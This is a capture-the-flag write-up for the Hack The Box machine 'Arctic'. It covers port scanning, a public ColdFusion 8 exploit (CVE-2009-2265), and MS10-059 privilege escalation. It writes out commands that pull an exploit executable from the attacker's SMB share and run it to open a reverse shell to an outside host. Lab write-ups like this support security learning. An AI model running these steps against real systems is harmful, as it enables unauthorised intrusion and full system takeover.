








# [Arctic](https://app.hackthebox.com/machines/arctic)

```bash
nmap -p- --min-rate 10000 10.10.10.11 -Pn 
```



After knowing (135,8500,49154) ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p135,8500,49154 10.10.10.11 -Pn
```



I see that on port (8500), our target runs 'Coldfusion' application whose version is 8

Let's search publicly known exploit for this version of Coldfusion. 

I find [this](https://github.com/0xConstant/CVE-2009-2265.git)

That is CVE-2009-2265 whose id on exploit-db is 50057.

After, I changed LHOST and LPORT of code, we can run and get result.




user.txt




After getting shell, I run `systeminfo` command to find exploit path for root user.

I see that it is vulnerable to [MS10-059](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri).


After I downloading this malicious executable, I open SMB share to upload into my target machine.

```bash
python3 /usr/share/doc/python3-impacket/examples/smbserver.py share .  #means current directory
```



```bash
copy \\10.10.16.8\share\Chimichurri.exe .
.\Chimichurri.exe 10.10.16.8 1338
```




I got reverse shell from listener.




root.txt

